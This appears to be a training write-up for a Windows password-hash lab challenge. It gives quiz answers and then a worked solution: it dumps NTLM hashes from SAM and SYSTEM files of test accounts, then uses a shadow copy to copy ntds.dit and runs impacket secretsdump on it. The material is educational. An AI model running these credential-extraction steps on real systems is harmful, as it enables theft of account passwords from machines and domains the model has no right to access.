




#### Day 4. Password Hashes

###### Question

1. Which algorithm is used for calculating hashes of passwords in Windows?	
	**`MD4`**

2. How are password hashes protected in the SAM database?

	**`Hashes are encrypted with the key stored in SYSTEM registry hive`**

3. What are “rainbow tables”?

	**`It is a set of pre-calculated hashes for most popular passwords.`**

4. Where is the SAM database stored on the disk?

	**`C:\Windows\system32\config\sam`**

5. How is the password hash usually displayed?

	**`32 hex digits (0-F)`**
	
###### Exercise

- During the penetration test, your friendly auditor was able to acquire `SAM` and `SYSTEM` files from one of analyzed servers. Now he shares these files with you because he knows you can perform some analysis.
Please find the link below the video and then:

1. Extract hashes from files provided
2. Guess/recover/crack as many passwords as you can.

All files for working with local hashes can be downloaded here.
The password is `CQUREAcademy#123!`

If you want also play with Active Direcory, the toolset you can find here.
The password is `CQUREAcademy#123!`

- Important

There is NO one and only answer to the Part 2 of this challenge, that is why there is no
“Submit” process. BUT if you are eager to share your results and thinking process to the Challenge Part 2, please put it in the comment section below so we can have some discussion about it!

###### Solution

- Extract hashes from files provided

```
C:\Users\Administrator\Desktop>CQHashDumpv2.exe --samdump --sam StolenFiles\SAM --sys StolenFiles\SYSTEM
SAM hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
test1:1008:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
test2:1009:aad3b435b51404eeaad3b435b51404ee:186cb09181e2c2ecaac768c47c729904:::
test3:1010:aad3b435b51404eeaad3b435b51404ee:e0fba38268d0ec66ef1cb452d5885e53:::
test4:1011:aad3b435b51404eeaad3b435b51404ee:0bd63185f3484bb000286c85917dc12e:::
test5:1012:aad3b435b51404eeaad3b435b51404ee:a4f49c406510bdcab6824ee7c30fd852:::
test6:1013:aad3b435b51404eeaad3b435b51404ee:4ccdb7041204d5488c04637bf6adff08:::
test7:1014:aad3b435b51404eeaad3b435b51404ee:2d20d252a479f485cdf5e171d93985bf:::
test8:1015:aad3b435b51404eeaad3b435b51404ee:f67f5e3f66efd7298be6acd32eeeb27c:::
test9:1016:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
test10:1017:aad3b435b51404eeaad3b435b51404ee:9f8419c868078392e0cbf16976724291:::

C:\Users\Administrator\Desktop>
C:\Users\Administrator\Desktop>CQHashDumpv2.exe --samdump --sam StolenFiles\SAM --sys StolenFiles\SYSTEM > hashes.txt

C:\Users\Administrator\Desktop>
```



```PowerShell
PS C:\Users\Administrator\Desktop> Get-Content .\hashes.txt | Select-String -Pattern ':::' | ForEach-Object { ($_ -split ':')[3] }
e19ccf75ee54e06b06a5907af13cef42
e19ccf75ee54e06b06a5907af13cef42
e19ccf75ee54e06b06a5907af13cef42
186cb09181e2c2ecaac768c47c729904
e0fba38268d0ec66ef1cb452d5885e53
0bd63185f3484bb000286c85917dc12e
a4f49c406510bdcab6824ee7c30fd852
4ccdb7041204d5488c04637bf6adff08
2d20d252a479f485cdf5e171d93985bf
f67f5e3f66efd7298be6acd32eeeb27c
32ed87bdb5fdc5e9cba88547376818d4
9f8419c868078392e0cbf16976724291
PS C:\Users\Administrator\Desktop>
```





[Step-By-Step: Setting up Active Directory in Windows Server 2016](https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/)



- Guess/recover/crack as many passwords
	- Extract `ntds.dit`

```
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>vssadmin
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Error: Invalid command.

---- Commands Supported ----

Add ShadowStorage     - Add a new volume shadow copy storage association
Create Shadow         - Create a new volume shadow copy
Delete Shadows        - Delete volume shadow copies
Delete ShadowStorage  - Delete volume shadow copy storage associations
List Providers        - List registered volume shadow copy providers
List Shadows          - List existing volume shadow copies
List ShadowStorage    - List volume shadow copy storage associations
List Volumes          - List volumes eligible for shadow copies
List Writers          - List subscribed volume shadow copy writers
Resize ShadowStorage  - Resize a volume shadow copy storage association
Revert Shadow         - Revert a volume to a shadow copy
Query Reverts         - Query the progress of in-progress revert operations.

C:\Users\Administrator>
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Get-WmiObject -list Win32_ShadowCopy


   NameSpace: ROOT\cimv2

Name                                Methods              Properties
----                                -------              ----------
Win32_ShadowCopy                    {Create, Revert}     {Caption, ClientAccessible, Count, Description...}


PS C:\Users\Administrator> (Get-WmiObject -list Win32_ShadowCopy).Create("C:\","ClientAccessible")


__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 2
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      : 0
ShadowID         : {46DF9097-D123-4364-85A0-5FDBDBEB0B44}
PSComputerName   :


PS C:\Users\Administrator> exit

C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0d116912-91ff-4826-acff-ab408446121f}
   Contained 1 shadow copies at creation time: 3/10/2018 6:01:00 PM
      Shadow Copy ID: {46df9097-d123-4364-85a0-5fdbdbeb0b44}
         Original Volume: (C:)\\?\Volume{b5c5e198-0000-0000-0000-501f00000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: WIN-VK8FOCA4FDK.kanishka.com
         Service Machine: WIN-VK8FOCA4FDK.kanishka.com
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential


C:\Users\Administrator>
C:\Users\Administrator>mklink C:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
symbolic link created for C:\shadowcopy <<===>> \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

C:\Users\Administrator>
C:\Users\Administrator>copy c:\shadowcopy\Windows\NTDS\ntds.dit .
        1 file(s) copied.

C:\Users\Administrator>copy ntds.dit "Desktop\ActiveDirectory\1 LIBESEDB"
        1 file(s) copied.

C:\Users\Administrator>
C:\Users\Administrator>copy c:\shadowcopy\Windows\System32\config\SYSTEM C:\Users\Administrator\Desktop
        1 file(s) copied.

C:\Users\Administrator>
```

```sh
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python setup.py install
pip install -r requirements.txt
python impacket/examples/secretsdump.py -ntds ntds.dit -system SYSTEM local -just-dc-ntlm
```

###### Reference

- [CQURE 5-DAY CHALLENGE – DAY 4: PASSWORD & HASHES](https://zoovash.io/2017/05/22/cqure-5-day-challenge-day-4-password-hashes/)